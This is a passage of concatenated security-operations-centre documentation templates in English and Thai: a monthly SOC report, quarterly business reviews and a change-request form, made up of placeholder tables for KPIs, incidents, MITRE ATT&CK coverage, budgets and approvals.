### Top MITRE ATT&CK Techniques Observed

| Technique | Count | Playbook Used |
| :--- | :---: | :--- |
| T1566 Phishing | [X] | PB-01 |
| T1078 Valid Accounts | [X] | PB-05 |
| T1059 Command/Script | [X] | PB-11 |
| T1486 Data Encrypted | [X] | PB-02 |

## 7. Staffing & Training

| Metric | Value |
| :--- | :--- |
| Analysts on Shift (avg) | [X] |
| Overtime Hours | [X] |
| Training Hours Completed | [X] |
| Certifications Earned | [X] |
| Open Positions | [X] |

## 8. Projects & Improvements
-   [ ] Tuned [X] noisy detection rules.
-   [ ] Onboarded [New Log Source].
-   [ ] Completed [Training Module].
-   [ ] Deployed [New Tool/Integration].
-   [ ] Created [X] new Sigma detection rules.

## 9. Recommendations

| Priority | Recommendation | Owner | Target Date |
| :--- | :--- | :--- | :--- |
| 🔴 High | [e.g., Enable MFA for all admin accounts] | [Owner] | [Date] |
| 🟡 Medium | [e.g., Onboard cloud audit logs] | [Owner] | [Date] |
| 🟢 Low | [e.g., Update phishing awareness training] | [Owner] | [Date] |

## Dashboard Visualizations Guide

### Recommended Charts for Monthly Report

| Metric | Chart Type | Purpose |
|:---|:---|:---|
| Alert volume by severity | Stacked bar chart | Show volume trends over time |
| MTTD / MTTR trend | Line chart (dual axis) | Show performance improvement |
| Top 10 alert types | Horizontal bar chart | Identify highest volume alerts |
| True vs False Positive ratio | Pie/donut chart | Show detection accuracy |
| Incidents by category | Treemap | Show relative incident distribution |
| SLA compliance | Gauge/meter | Quick pass/fail visibility |
| MITRE ATT&CK heatmap | Matrix heatmap | Show detection coverage gaps |
| Analyst workload | Bar chart per analyst | Identify capacity issues |

### Trend Analysis Section

```markdown
## Monthly Trend Analysis

### Volume Trends (3-month view)
| Metric | Month-2 | Month-1 | Current | Trend |
|:---|:---:|:---:|:---:|:---:|
| Total Alerts | X,XXX | X,XXX | X,XXX | ↑/↓ X% |
| True Positives | XXX | XXX | XXX | ↑/↓ X% |
| False Positives | X,XXX | X,XXX | X,XXX | ↑/↓ X% |
| Incidents Created | XX | XX | XX | ↑/↓ X% |
| P1/P2 Incidents | X | X | X | ↑/↓ X% |

### Performance Trends
| KPI | Month-2 | Month-1 | Current | Target | Status |
|:---|:---:|:---:|:---:|:---:|:---:|
| MTTD | XX min | XX min | XX min | ≤ 60 min | ✅/❌ |
| MTTR | XX min | XX min | XX min | ≤ 240 min | ✅/❌ |
| FP Rate | XX% | XX% | XX% | ≤ 20% | ✅/❌ |
| SLA Met | XX% | XX% | XX% | ≥ 95% | ✅/❌ |

### Key Observations
1. [Observation about alert volume changes]
2. [Observation about new threat types]
3. [Observation about team performance]

### Recommendations
1. [Action item based on data]
2. [Staffing/tool recommendation]
3. [Detection improvement suggestion]
```

## Executive Summary Template

For CISO and Board-level audiences, use this 1-page format:

```markdown
## SOC Executive Summary — [Month Year]

**Status: 🟢 GREEN / 🟡 AMBER / 🔴 RED**

### Key Numbers
| Metric | Value | vs. Last Month |
|:---|:---:|:---:|
| Security Incidents | XX | ↑/↓ X% |
| Critical Incidents (P1) | X | ↑/↓ |
| Mean Time to Detect | XX min | ↑/↓ |
| Mean Time to Respond | XX min | ↑/↓ |

### Notable Incidents
1. [Brief description of most significant incident]
2. [Brief description of second incident]

### Risk Highlights
- [New threat affecting our industry]
- [Vulnerability requiring attention]

### Budget / Resource Needs
- [Any staffing, tool, or training requests]

### Next Month Focus
- [Key initiative or improvement planned]
```

## Related Documents
-   [SOC Metrics & KPIs](../06_Operations_Management/SOC_Metrics.en.md)
-   [Quarterly Business Review](Quarterly_Business_Review.en.md)
-   [SOC Assessment Checklist](../06_Operations_Management/SOC_Assessment_Checklist.en.md)

## References
-   [SANS SOC Metrics](https://www.sans.org/white-papers/)
-   [SOC-CMM](https://www.soc-cmm.com/)


---

## File: 11_Reporting_Templates/Monthly_SOC_Report.th.md

# รายงานผลการดำเนินงาน SOC ประจำเดือน

**ประจำเดือน**: [ด/ปปปป]
**จัดทำโดย**: [ชื่อผู้จัดการ SOC]
**ผู้รับมอบ**: CIO, CISO, IT Director

## 1. บทสรุปผู้บริหาร (Executive Summary)

```mermaid
graph LR
    Collect[รวบรวมข้อมูล] --> Analyze[วิเคราะห์แนวโน้ม]
    Analyze --> Draft[ร่างรายงาน]
    Draft --> Review[ผู้จัดการตรวจสอบ]
    Review --> Distribute[ส่งมอบผู้บริหาร]
```

*สรุปภาพรวมการทำงานของ SOC ในเดือนนี้ 3-5 ประโยค เน้นเหตุการณ์สำคัญหรือความสำเร็จ*

## 2. ตัวชี้วัดผลการดำเนินงาน (KPIs)

| ตัวชี้วัด (Metric) | เป้าหมาย (Target) | ผลลัพธ์ (Actual) | สถานะ |
| :--- | :--- | :--- | :--- |
| **MTTD** (เวลาตรวจจับเฉลี่ย) | < 30 นาที | [XX] นาที | [🟢/🔴] |
| **MTTR** (เวลาตอบสนองเฉลี่ย) | < 60 นาที | [XX] นาที | [🟢/🔴] |
| **จำนวน Alert ทั้งหมด** | - | [XXXX] | - |
| **จำนวน Incident จริง** | - | [XX] | - |
| **อัตรา False Positive** | < 10% | [XX]% | [🟢/🔴] |

## 3. เหตุการณ์สำคัญ (Incident Highlights)
*ระบุ 3 เหตุการณ์ที่สำคัญที่สุด*

### เหตุการณ์ที่ 1: [ชื่อเหตุการณ์ เช่น ตรวจพบมัลแวร์เครื่องฝ่ายการเงิน]
-   **วันที่**: [YYYY-MM-DD]
-   **ผลกระทบ**: [ไม่มี / ข้อมูลรั่วไหล / ระบบหยุดทำงาน]
-   **การแก้ไข**: [กักกันเครื่อง, ลง Windows ใหม่]
-   **สาเหตุ**: [User เปิดไฟล์แนบอันตราย]

## 4. วิเคราะห์แนวโน้มภัยคุกคาม (Threat Landscape)
*แนวโน้มที่พบในเดือนนี้*
-   [ ] พบการโจมตี Phishing เพิ่มขึ้นในแผนกบุคคล
-   [ ] มีการพยายามเดารหัสผ่าน VPN บ่อยครั้ง

## 5. โครงการและการปรับปรุง
-   [ ] ปรับปรุงกฎ Alert ที่แจ้งเตือนผิดพลาด 5 กฎ
-   [ ] นำเข้า Log ใหม่จาก [ระบบ]
-   [ ] อบรมพนักงานเรื่อง [หัวข้อ]

## สรุปเหตุการณ์ตามประเภท

| ประเภท | จำนวน | ระดับ | MTTD | MTTR | สถานะ |
|:---|:---:|:---|:---|:---|:---|
| Phishing / BEC | [X] | [H/M/L] | [XX] นาที | [XX] นาที | แก้ไขแล้ว |
| Malware / Ransomware | [X] | [H/M/L] | [XX] นาที | [XX] นาที | แก้ไขแล้ว |
| Account Compromise | [X] | [H/M/L] | [XX] นาที | [XX] นาที | แก้ไขแล้ว |
| Data Exfiltration / DLP | [X] | [H/M/L] | [XX] นาที | [XX] นาที | แก้ไขแล้ว |
| Insider Threat | [X] | [H/M/L] | [XX] นาที | [XX] นาที | แก้ไขแล้ว |

## แนวโน้มการแจ้งเตือน

| แหล่งแจ้งเตือน | เดือนนี้ | เดือนก่อน | เปลี่ยนแปลง |
|:---|:---:|:---:|:---|
| EDR / Endpoint | [XXX] | [XXX] | [↑/↓] XX% |
| SIEM / Correlation | [XXX] | [XXX] | [↑/↓] XX% |
| Email Gateway | [XXX] | [XXX] | [↑/↓] XX% |
| Cloud Security | [XXX] | [XXX] | [↑/↓] XX% |
| Network (IDS/IPS) | [XXX] | [XXX] | [↑/↓] XX% |

## บุคลากรและการฝึกอบรม

| ตัวชี้วัด | ค่า |
|:---|:---|
| นักวิเคราะห์ในกะ (เฉลี่ย) | [X] |
| ชั่วโมงล่วงเวลา | [X] |
| ชั่วโมงฝึกอบรม | [X] |
| ใบรับรองที่ได้รับ | [X] |

## ข้อเสนอแนะ

| ลำดับความสำคัญ | ข้อเสนอแนะ | ผู้รับผิดชอบ | วันเป้าหมาย |
|:---|:---|:---|:---|
| 🔴 สูง | [เช่น เปิดใช้ MFA สำหรับทุกบัญชี Admin] | [ผู้รับผิดชอบ] | [วันที่] |
| 🟡 กลาง | [เช่น Onboard cloud audit logs] | [ผู้รับผิดชอบ] | [วันที่] |
| 🟢 ต่ำ | [เช่น อัปเดตการฝึกอบรม phishing] | [ผู้รับผิดชอบ] | [วันที่] |

## คู่มือ Dashboard Visualization

### แผนภูมิแนะนำสำหรับรายงานเดือน

| ตัวชี้วัด | ประเภทแผนภูมิ | วัตถุประสงค์ |
|:---|:---|:---|
| ปริมาณ alert ตาม severity | Stacked bar chart | แสดงแนวโน้มปริมาณ |
| MTTD / MTTR trend | Line chart (dual axis) | แสดงการปรับปรุงประสิทธิภาพ |
| Top 10 alert types | Horizontal bar chart | ระบุ alert ที่มีปริมาณมากที่สุด |
| True vs False Positive | Pie/donut chart | แสดงความแม่นยำ detection |
| Incidents ตามหมวด | Treemap | แสดงการกระจายตัว incident |
| SLA compliance | Gauge/meter | ดูเร็ว ผ่าน/ไม่ผ่าน |
| MITRE ATT&CK heatmap | Matrix heatmap | แสดงช่องว่าง coverage |
| Workload ต่อ analyst | Bar chart ต่อ analyst | ระบุปัญหา capacity |

### ส่วนวิเคราะห์แนวโน้ม

```markdown
## วิเคราะห์แนวโน้มรายเดือน

### แนวโน้มปริมาณ (มุมมอง 3 เดือน)
| ตัวชี้วัด | เดือน-2 | เดือน-1 | ปัจจุบัน | แนวโน้ม |
|:---|:---:|:---:|:---:|:---:|
| Alert ทั้งหมด | X,XXX | X,XXX | X,XXX | ↑/↓ X% |
| True Positives | XXX | XXX | XXX | ↑/↓ X% |
| False Positives | X,XXX | X,XXX | X,XXX | ↑/↓ X% |
| Incidents สร้าง | XX | XX | XX | ↑/↓ X% |
| P1/P2 Incidents | X | X | X | ↑/↓ X% |

### แนวโน้มประสิทธิภาพ
| KPI | เดือน-2 | เดือน-1 | ปัจจุบัน | เป้า | สถานะ |
|:---|:---:|:---:|:---:|:---:|:---:|
| MTTD | XX นาที | XX นาที | XX นาที | ≤ 60 นาที | ✅/❌ |
| MTTR | XX นาที | XX นาที | XX นาที | ≤ 240 นาที | ✅/❌ |
| FP Rate | XX% | XX% | XX% | ≤ 20% | ✅/❌ |
| SLA Met | XX% | XX% | XX% | ≥ 95% | ✅/❌ |
```

## Template สรุปผู้บริหาร

สำหรับ CISO และ Board ใช้รูปแบบ 1 หน้า:

```markdown
## สรุป SOC ผู้บริหาร — [เดือน ปี]

**สถานะ: 🟢 เขียว / 🟡 เหลือง / 🔴 แดง**

### ตัวเลขสำคัญ
| ตัวชี้วัด | ค่า | เทียบเดือนก่อน |
|:---|:---:|:---:|
| Security Incidents | XX | ↑/↓ X% |
| Critical Incidents (P1) | X | ↑/↓ |
| เวลาเฉลี่ยตรวจจับ | XX นาที | ↑/↓ |
| เวลาเฉลี่ยตอบสนอง | XX นาที | ↑/↓ |

### Incidents สำคัญ
1. [สรุปสั้นๆ ของ incident สำคัญที่สุด]
2. [สรุปสั้นๆ ของ incident ที่สอง]

### ความเสี่ยงเด่น
- [ภัยคุกคามใหม่ที่กระทบอุตสาหกรรมเรา]
- [ช่องโหว่ที่ต้องสนใจ]
```

## เอกสารที่เกี่ยวข้อง (Related Documents)
-   [ตัวชี้วัด SOC](../06_Operations_Management/SOC_Metrics.th.md)
-   [รายงานรายไตรมาส](Quarterly_Business_Review.th.md)
-   [แบบประเมิน SOC](../06_Operations_Management/SOC_Assessment_Checklist.th.md)

## Monthly Report Content Guide

### Mandatory Sections

| Section | เนื้อหา | Charts |
|:---|:---|:---|
| Executive Summary | สรุป 1 หน้า | Key metrics |
| Alert Statistics | Volume, types, trends | Bar + line |
| Incidents | Summary, severity, status | Pie + table |
| KPI Performance | ตัวชี้วัดหลัก vs target | Gauge |
| Threat Landscape | ภัยคุกคามล่าสุด | Timeline |
| Recommendations | ข้อเสนอปรับปรุง | Priority list |

### Report Review Checklist
- [ ] ข้อมูลถูกต้องครบถ้วน
- [ ] Charts อ่านเข้าใจง่าย
- [ ] Recommendations มี action items
- [ ] เปรียบเทียบกับเดือนก่อน
- [ ] Proofread ก่อนส่ง

### Report Approval Workflow

| Step | Approver | SLA |
|:---|:---|:---|
| Draft | SOC Analyst | Day 3 |
| Review | SOC Manager | Day 5 |
| Final | CISO | Day 7 |
| Distribute | Admin | Day 8 |

### งบประมาณ / ทรัพยากรที่ต้องการ
- [ความต้องการกำลังคน เครื่องมือ หรือการฝึกอบรม]

### จุดเน้นเดือนหน้า
- [โครงการหลักหรือการปรับปรุงที่วางแผนไว้]

### Template สรุปผู้บริหาร

สำหรับ CISO และ Board ใช้รูปแบบ 1 หน้า:

```markdown
## สรุป SOC ผู้บริหาร — [เดือน ปีย่อ]

**สถานะ: 🟢 เขียว / 🟡 เหลือง / 🔴 แดง**

### ตัวเลขสำคัญ
| ตัวชี้วัด | ค่า | เทียบเดือนก่อน |
|:---|:---:|:---:|
| Security Incidents | XX | ↑/↓ X% |
| Critical Incidents (P1) | X | ↑/↓ |
| เวลาเฉลี่ยตรวจจับ | XX นาที | ↑/↓ |
| เวลาเฉลี่ยตอบสนอง | XX นาที | ↑/↓ |

### Incidents สำคัญ
1. [สรุปสั้นๆ ของ incident ที่สำคัญที่สุด]
2. [สรุปสั้นๆ ของ incident ที่สอง]
```

## References
-   [SANS SOC Metrics](https://www.sans.org/white-papers/)
-   [SOC-CMM](https://www.soc-cmm.com/)


---

## File: 11_Reporting_Templates/Quarterly_Business_Review.en.md

# SOC Quarterly Business Review (QBR)

> **Purpose**: Executive-level review of SOC performance, maturity progression, and strategic alignment. Present to C-Suite and Board stakeholders quarterly.

---

**Quarter**: [Q1/Q2/Q3/Q4 YYYY]
**Prepared By**: [SOC Manager]
**Date**: YYYY-MM-DD
**Distribution**: ☐ CISO · ☐ CTO · ☐ CEO · ☐ Board

---

## 1. Strategic Summary

*2–3 paragraph overview of SOC posture, key wins, and challenges this quarter.*

> 

---

## 2. KPI Dashboard

### 2.1 Operational Metrics

| Metric | Target | Q-1 Actual | This Q Actual | Trend | Status |
|:---|:---:|:---:|:---:|:---:|:---:|
| **MTTD** (Mean Time to Detect) | < 30 min | | | 🔺/🔻 | 🟢🟡🔴 |
| **MTTA** (Mean Time to Acknowledge) | < 10 min | | | | |
| **MTTR** (Mean Time to Respond) | < 60 min | | | | |
| **False Positive Rate** | < 10% | | | | |
| **Escalation Accuracy** | ≥ 85% | | | | |
| **SLA Adherence** | ≥ 95% | | | | |
| **Dwell Time** | < 24 hrs | | | | |

### 2.2 Volume Statistics

| Metric | Q-1 | This Q | Change |
|:---|:---:|:---:|:---:|
| Total Alerts Processed | | | |
| True Positive Incidents | | | |
| Critical/High Incidents | | | |
| Incidents Requiring Escalation | | | |
| Playbooks Executed | | | |
| Mean Alerts per Analyst per Day | | | |

---

## 3. Incident Highlights

### Top 5 Incidents This Quarter

| # | Incident ID | Severity | Category | Impact | Resolution Time | Lessons |
|:---:|:---|:---:|:---|:---|:---:|:---|
| 1 | | | | | | |
| 2 | | | | | | |
| 3 | | | | | | |
| 4 | | | | | | |
| 5 | | | | | | |

### Incident Trends

| Category | Q-1 Count | This Q Count | Trend |
|:---|:---:|:---:|:---:|
| Phishing | | | |
| Malware | | | |
| Account Compromise | | | |
| Data Exfiltration | | | |
| Other | | | |

---

## 4. Maturity Growth (SOC-CMM)

| Domain | Q-1 Score | This Q Score | Change | Target (EOY) |
|:---|:---:|:---:|:---:|:---:|
| **Business** | /5 | /5 | 🔺/🔻 | /5 |
| **People** | /5 | /5 | | /5 |
| **Process** | /5 | /5 | | /5 |
| **Technology** | /5 | /5 | | /5 |
| **Services** | /5 | /5 | | /5 |
| **Overall** | /5 | /5 | | /5 |

---

## 5. Detection Coverage

### MITRE ATT&CK Coverage

| Tactic | Rules | Coverage % | Gap Priority |
|:---|:---:|:---:|:---:|
| Initial Access | | | |
| Execution | | | |
| Persistence | | | |
| Privilege Escalation | | | |
| Defense Evasion | | | |
| Credential Access | | | |
| Discovery | | | |
| Lateral Movement | | | |
| Collection | | | |
| Command & Control | | | |
| Exfiltration | | | |
| Impact | | | |

**New Rules Deployed This Quarter**: ____
**Rules Tuned/Optimized**: ____
**Rules Retired**: ____

---

## 6. Budget & Resource Status

| Category | Annual Budget | YTD Spent | Remaining | Utilization |
|:---|:---:|:---:|:---:|:---:|
| **Technology** (licensing, tools) | | | | % |
| **Personnel** (salaries, training) | | | | % |
| **Services** (MSSP, consulting) | | | | % |
| **Training & Certs** | | | | % |
| **Total** | | | | % |

### Staffing

| Role | Authorized | Filled | Open | Time to Fill |
|:---|:---:|:---:|:---:|:---|
| Tier 1 Analyst | | | | |
| Tier 2 Analyst | | | | |
| Tier 3 / Hunt | | | | |
| SOC Lead | | | | |
| Detection Engineer | | | | |

---

## 7. Risks & Challenges

| # | Risk | Impact | Likelihood | Mitigation | Owner |
|:---:|:---|:---:|:---:|:---|:---|
| 1 | | High/Med/Low | High/Med/Low | | |
| 2 | | | | | |
| 3 | | | | | |

---

## 8. Achievements This Quarter

- [ ] Achievement 1
- [ ] Achievement 2
- [ ] Achievement 3

---

## 9. Next Quarter Roadmap

| Priority | Goal | Owner | Success Criteria | Dependencies |
|:---:|:---|:---|:---|:---|
| P1 | | | | |
| P2 | | | | |
| P3 | | | | |

---

## 10. Requests for Leadership

| # | Request | Business Case | Budget Impact | Decision Needed By |
|:---:|:---|:---|:---|:---|
| 1 | | | | |
| 2 | | | | |

---

## Related Documents

- [Monthly SOC Report](Monthly_SOC_Report.en.md)
- [SOC Metrics & KPIs](../06_Operations_Management/SOC_Metrics.en.md)
- [SOC Maturity Assessment](../06_Operations_Management/SOC_Maturity_Assessment.en.md)
- [SOC Assessment Checklist](../06_Operations_Management/SOC_Assessment_Checklist.en.md)

## References

- [SOC-CMM Assessment Model](https://www.soc-cmm.com/)
- [MITRE ATT&CK Evaluations](https://attackevals.mitre-engenuity.org/)
- [Gartner SOC Modernization](https://www.gartner.com/en/information-technology)


---

## File: 11_Reporting_Templates/Quarterly_Business_Review.th.md

# รายงานทบทวนผลการดำเนินงานรายไตรมาส (SOC QBR)

> **วัตถุประสงค์**: รายงานระดับผู้บริหารทบทวนผลงาน SOC, ความก้าวหน้าด้านวุฒิภาวะ, และทิศทางกลยุทธ์ นำเสนอต่อ C-Suite และ Board ทุกไตรมาส

---

**ไตรมาส**: [Q1/Q2/Q3/Q4 ปี]
**จัดทำโดย**: [ผู้จัดการ SOC]
**วันที่**: YYYY-MM-DD

---

## 1. บทสรุปเชิงกลยุทธ์

> 

---

## 2. ตัวชี้วัดผลงาน

### 2.1 ตัวชี้วัดการปฏิบัติงาน

| ตัวชี้วัด | เป้าหมาย | ไตรมาสก่อน | ไตรมาสนี้ | แนวโน้ม | สถานะ |
|:---|:---:|:---:|:---:|:---:|:---:|
| **MTTD** | < 30 นาที | | | 🔺/🔻 | 🟢🟡🔴 |
| **MTTA** | < 10 นาที | | | | |
| **MTTR** | < 60 นาที | | | | |
| **False Positive Rate** | < 10% | | | | |
| **Escalation Accuracy** | ≥ 85% | | | | |
| **SLA Adherence** | ≥ 95% | | | | |

### 2.2 สถิติปริมาณ

| ตัวชี้วัด | ไตรมาสก่อน | ไตรมาสนี้ | เปลี่ยนแปลง |
|:---|:---:|:---:|:---:|
| Alert ทั้งหมดที่ดำเนินการ | | | |
| True Positive Incidents | | | |
| Incidents ระดับ Critical/High | | | |
| Playbooks ที่ใช้งาน | | | |

---

## 3. เหตุการณ์สำคัญ

### Top 5 Incidents

| # | Incident ID | ระดับ | หมวด | ผลกระทบ | เวลาแก้ไข | บทเรียน |
|:---:|:---|:---:|:---|:---|:---:|:---|
| 1 | | | | | | |
| 2 | | | | | | |
| 3 | | | | | | |

---

## 4. การเติบโตด้านวุฒิภาวะ (SOC-CMM)

| ด้าน | ไตรมาสก่อน | ไตรมาสนี้ | เปลี่ยนแปลง | เป้า EOY |
|:---|:---:|:---:|:---:|:---:|
| **ธุรกิจ** | /5 | /5 | 🔺/🔻 | /5 |
| **บุคลากร** | /5 | /5 | | /5 |
| **กระบวนการ** | /5 | /5 | | /5 |
| **เทคโนโลยี** | /5 | /5 | | /5 |
| **บริการ** | /5 | /5 | | /5 |

---

## 5. Detection Coverage (MITRE ATT&CK)

| Tactic | จำนวน Rules | Coverage % | ลำดับ Gap |
|:---|:---:|:---:|:---:|
| Initial Access | | | |
| Execution | | | |
| Persistence | | | |
| Discovery | | | |
| Lateral Movement | | | |
| Collection | | | |
| Exfiltration | | | |
| Impact | | | |

---

## 6. งบประมาณและทรัพยากร

| หมวด | งบประมาณปี | ใช้ไป YTD | คงเหลือ | % ใช้ |
|:---|:---:|:---:|:---:|:---:|
| **เทคโนโลยี** | | | | % |
| **บุคลากร** | | | | % |
| **บริการ** | | | | % |
| **ฝึกอบรม** | | | | % |

### อัตรากำลัง

| ตำแหน่ง | อนุมัติ | ปัจจุบัน | ว่าง |
|:---|:---:|:---:|:---:|
| Tier 1 Analyst | | | |
| Tier 2 Analyst | | | |
| Tier 3 / Hunt | | | |

---

## 7. ความเสี่ยงและความท้าทาย

| # | ความเสี่ยง | ผลกระทบ | โอกาส | การลดความเสี่ยง |
|:---:|:---|:---:|:---:|:---|
| 1 | | สูง/กลาง/ต่ำ | สูง/กลาง/ต่ำ | |
| 2 | | | | |

---

## 8. แผนงานไตรมาสถัดไป

| ลำดับ | เป้าหมาย | ผู้รับผิดชอบ | เกณฑ์สำเร็จ |
|:---:|:---|:---|:---|
| P1 | | | |
| P2 | | | |
| P3 | | | |

---

## QBR Agenda

| เวลา | หัวข้อ | ผู้นำเสนอ |
|:---:|:---|:---|
| 10 นาที | สรุป Executive | SOC Manager |
| 15 นาที | Incident Highlights + Trends | SOC Lead |
| 10 นาที | Detection & Response Metrics | Detection Engineer |
| 10 นาที | Threat Landscape Update | TI Analyst |
| 10 นาที | People & Training | SOC Manager |
| 10 นาที | Technology Roadmap | SOC Manager |
| 10 นาที | Budget Review | SOC Manager |
| 15 นาที | Q&A + Next Quarter Goals | ทุกคน |

## QBR Metrics Dashboard

| Category | ตัวชี้วัด | Q ก่อน | Q นี้ | เป้า | สถานะ |
|:---|:---|:---:|:---:|:---:|:---:|
| **Detection** | MTTD | [XX]m | [XX]m | ≤60m | ✅/❌ |
| **Response** | MTTR | [XX]m | [XX]m | ≤240m | ✅/❌ |
| **Efficiency** | FP Rate | [XX]% | [XX]% | <10% | ✅/❌ |
| **Coverage** | MITRE Coverage | [XX]% | [XX]% | ≥80% | ✅/❌ |
| **People** | Analyst Turnover | [XX]% | [XX]% | <15% | ✅/❌ |
| **SLA** | SLA Compliance | [XX]% | [XX]% | ≥95% | ✅/❌ |

## เอกสารที่เกี่ยวข้อง

- [รายงานประจำเดือน](Monthly_SOC_Report.th.md)
- [ตัวชี้วัด SOC](../06_Operations_Management/SOC_Metrics.th.md)
- [การประเมินวุฒิภาวะ SOC](../06_Operations_Management/SOC_Maturity_Assessment.th.md)

### QBR Presentation Structure

| Slide | เนื้อหา | เวลา |
|:---|:---|:---|
| 1 | Executive Summary | 5 min |
| 2 | KPI Performance vs Target | 10 min |
| 3 | Incident Highlights | 10 min |
| 4 | Threat Landscape Update | 5 min |
| 5 | Investment & ROI | 10 min |
| 6 | Roadmap & Next Steps | 5 min |
| 7 | Q&A | 15 min |

### ROI Calculation Template

| Metric | Before SOC | After SOC | Savings |
|:---|:---|:---|:---|
| Avg breach cost | 15M THB | 5M THB | 10M THB |
| MTTR | 72 hrs | 4 hrs | 68 hrs |
| Downtime/year | 48 hrs | 8 hrs | 40 hrs |
| FTE (manual) | 8 | 4 | 4 FTE |

### QBR Success Metrics

| Metric | Target |
|:---|:---|
| Attendees | 100% stakeholders |
| Action items | ≤ 10, assigned |
| Follow-up | Within 1 week |

## อ้างอิง

- [SOC-CMM Assessment Model](https://www.soc-cmm.com/)
- [MITRE ATT&CK](https://attack.mitre.org/)


---

## File: 11_Reporting_Templates/change_request_rfc.en.md

# Request for Change (RFC)

> **Instructions**: Complete all sections before submitting to the Change Advisory Board (CAB). Emergency changes may skip CAB but require SOC Manager + CISO verbal approval and retrospective review within 48 hours.

---

## Header

| Field | Value |
|:---|:---|
| **RFC ID** | #RFC-YYYYMMDD-XX |
| **Requester** | [Name / Role] |
| **Date Submitted** | YYYY-MM-DD |
| **Target Date** | YYYY-MM-DD |
| **Change Type** | ☐ Standard · ☐ Normal · ☐ Emergency |
| **Priority** | ☐ Critical · ☐ High · ☐ Medium · ☐ Low |
| **Environment** | ☐ Production · ☐ Staging · ☐ Development |

---

## 1. Description of Change

*What exactly is being changed? Be specific about components, versions, and configurations.*

| Aspect | Details |
|:---|:---|
| **Component** | [SIEM / EDR / SOAR / Network / Other] |
| **Change Summary** | [e.g., Deploy new detection rule 'Detect Mimikatz T1003'] |
| **Scope** | [Which systems/tenants/regions affected] |
| **Version** | From: [current] → To: [target] |

---

## 2. Justification

*Why is this change necessary? What risk does it mitigate?*

| Question | Answer |
|:---|:---|
| **Business Need** | |
| **Risk Mitigated** | |
| **Consequences of NOT Changing** | |
| **Regulatory Requirement?** | ☐ Yes (specify) · ☐ No |

---

## 3. Impact Analysis

| Dimension | Assessment |
|:---|:---|
| **Affected Components** | [List all systems] |
| **Affected Teams** | [SOC / IT Ops / Network / Users] |
| **Risk of Failure** | ☐ Low · ☐ Medium · ☐ High |
| **Downtime Required** | ☐ Yes (duration: ____) · ☐ No |
| **Performance Impact** | ☐ None · ☐ Temporary degradation · ☐ Significant |
| **False Positive Risk** | ☐ Low · ☐ Medium · ☐ High (for detection rules) |
| **User Notification Needed** | ☐ Yes · ☐ No |

---

## 4. Implementation Plan

| # | Step | Responsible | Duration | Checkpoint |
|:---:|:---|:---|:---|:---|
| 1 | Pre-change backup/snapshot | | | ☐ |
| 2 | [Implementation step] | | | ☐ |
| 3 | [Implementation step] | | | ☐ |
| 4 | Post-change validation | | | ☐ |
| 5 | Monitoring period | | | ☐ |

**Maintenance Window**: YYYY-MM-DD HH:MM – HH:MM (UTC)

---

## 5. Testing & Validation

| Test | Expected Result | Actual Result | Pass? |
|:---|:---|:---|:---:|
| Functional test | | | ☐ |
| Performance test | | | ☐ |
| Alert validation (if detection rule) | | | ☐ |
| No regression on existing rules | | | ☐ |

---

## 6. Rollback Plan

*Step-by-step instructions to revert the change if it fails.*

| # | Rollback Step | Responsible | Duration |
|:---:|:---|:---|:---|
| 1 | | | |
| 2 | | | |
| 3 | Verify rollback successful | | |

**Rollback Trigger**: [What conditions trigger a rollback?]
**Maximum Acceptable Downtime**: [Duration]

---

## 7. Communication Plan

| When | Who | Channel | Message |
|:---|:---|:---|:---|
| Before change | [Affected teams] | [Email/Chat] | Planned change notification |
| During change | [SOC team] | [Chat] | Status updates |
| After change | [All stakeholders] | [Email] | Completion confirmation |
| If failed | [Management] | [Phone + Email] | Rollback notification |

---

## 8. Approval (CAB)

| Role | Name | Decision | Date |
|:---|:---|:---:|:---|
| SOC Manager | | ☐ Approved · ☐ Rejected | |
| IT Operations | | ☐ Approved · ☐ Rejected | |
| Security Lead | | ☐ Approved · ☐ Rejected | |
| CISO (Critical only) | | ☐ Approved · ☐ Rejected | |

**CAB Decision**: ☐ Approved · ☐ Approved with Conditions · ☐ Deferred · ☐ Rejected

**Conditions (if any)**:
> 

---

## 9. Post-Implementation Review

| Metric | Value |
|:---|:---|
| **Change Successful?** | ☐ Yes · ☐ Partial · ☐ No (rolled back) |
| **Actual Implementation Time** | |
| **Issues Encountered** | |
| **Lessons Learned** | |
| **Follow-up Actions** | |

---

## Risk Assessment Matrix

| Risk Factor | Low (1) | Medium (2) | High (3) |
|:---|:---|:---|:---|
| **Scope** | Single rule/dashboard | Multiple tools/configs | Core infrastructure |
| **Reversibility** | Instant rollback | Rollback < 1 hour | Rollback > 1 hour or destructive |
| **Impact if Failed** | Minor inconvenience | Alert gaps (< 1 hour) | Monitoring blindspot or data loss |
| **Testing** | Fully tested in lab | Partially tested | Cannot test in advance |
| **Timing** | During change window | During business hours | During active incident |

**Risk Score** = Sum of all factors (5-15)
- **5-7**: Low risk → SOC Lead approval
- **8-10**: Medium risk → SOC Manager approval
- **11-15**: High risk → CISO approval + CAB review

## Approval Matrix

| Change Type | Risk Level | Approver | Lead Time |
|:---|:---|:---|:---|
| New detection rule (test mode) | Low | SOC Lead | Same day |
| Detection rule to production | Low-Medium | SOC Lead + peer review | 24 hours |
| SIEM configuration | Medium | SOC Manager | 48 hours |
| New log source onboarding | Medium | SOC Manager | 1 week |
| Agent deployment (fleet-wide) | High | SOC Manager + IT Lead | 1 week |
| Major platform upgrade | High | CISO + CAB | 2 weeks |
| Tool replacement/migration | High | CISO + Board | 1 month |

## Post-Change Validation Checklist

```
□ Change applied successfully
□ No error messages in logs
□ System health dashboards normal
□ Test alert fires correctly (if rule change)
□ Data flow confirmed (if source/pipeline change)
□ No unexpected FP increase
□ Performance baseline unchanged
□ Rollback plan confirmed working
□ Change ticket updated and closed
□ Team notified of change completion
```

## Related Documents

- [Deployment Procedures](../02_Platform_Operations/Deployment_Procedures.en.md)
- [Incident Report Template](incident_report.en.md)
- [Change Management SOP](../06_Operations_Management/Change_Management.en.md)
- [SOC Assessment Checklist](../06_Operations_Management/SOC_Assessment_Checklist.en.md)

## References

- [ITIL Change Management](https://www.axelos.com/certifications/itil-service-management)
- [NIST SP 800-128 — Configuration Management](https://csrc.nist.gov/publications/detail/sp/800-128/final)


---

## File: 11_Reporting_Templates/change_request_rfc.th.md

# แบบฟอร์มร้องขอการเปลี่ยนแปลง (Request for Change - RFC)

> **คำแนะนำ**: กรอกทุกส่วนก่อนส่ง CAB อนุมัติ สำหรับ Emergency change สามารถข้าม CAB แต่ต้องได้รับอนุมัติวาจาจาก SOC Manager + CISO และทบทวนย้อนหลังภายใน 48 ชั่วโมง

---

## ส่วนหัว

| ฟิลด์ | ค่า |
|:---|:---|
